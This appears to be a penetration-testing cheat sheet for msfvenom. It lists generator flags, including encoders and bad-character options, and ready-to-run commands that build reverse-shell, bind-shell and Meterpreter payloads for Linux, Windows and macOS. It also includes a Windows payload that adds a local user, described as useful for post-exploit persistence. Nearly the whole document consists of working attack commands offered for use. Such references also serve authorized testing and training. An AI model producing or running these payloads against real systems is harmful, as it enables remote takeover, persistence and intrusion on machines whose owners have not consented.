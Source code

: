 
```bash
msfvenom -p <PAYLOAD> --list-options
```

- Common flags:
    
    - `-p <payload>` — payload name (required).
        
    - `-f <format>` — output format (exe, elf, raw, macho, asp, jsp, war, php, python, perl, etc.).
        
    - `-o <file>` — write to file (preferred over shell redirection).
        
    - `-e <encoder>` — use encoder (e.g., `x86/shikata_ga_nai`).
        
    - `-i <count>` — number of encoding iterations.
        
    - `-b "<badchars>"` — avoid bytes (e.g. `\x00\x0a`).
        
    - `-a <arch>` — architecture (x86, x64).
        
    - `--platform <platform>` — platform hint (Windows, Linux, OSX, Java, PHP).
        
    - `EXITFUNC=` — how the shell exits (`process`, `thread`, `seh`).
        

---

## Organized Payload Examples

> All commands below assume you replace placeholders (`<IP>`, `<PORT>`, `<USER>`, `<PASS>`) before running.

### Linux (ELF / x86 / x64)

|Command|Purpose|Notes|
|---|--:|---|
|`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`|Linux Meterpreter — reverse (x86)|Multi-stage|
|`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`|Linux Meterpreter — bind (x86)|Multi-stage|
|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`|Linux reverse shell (x64)|Single-stage|

### Windows (EXE / Meterpreter / CMD)

|Command|Purpose|Notes|
|---|--:|---|
|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe`|Windows Meterpreter reverse|Multi-stage|
|`msfvenom -p windows/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f exe -o shell.exe`|Windows Meterpreter bind|Multi-stage|
|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe`|Windows CMD reverse shell|Single-stage|
|`msfvenom -p windows/adduser USER=<USER> PASS=<PASS> -f exe -o add_user.exe`|Create local user|Useful for post-exploit persistence|

### macOS (Mach-O)

|Command|Purpose|
|---|--:|
|`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho -o shell.macho`|macOS reverse shell|
|`msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho -o shell.macho`|macOS bind shell|
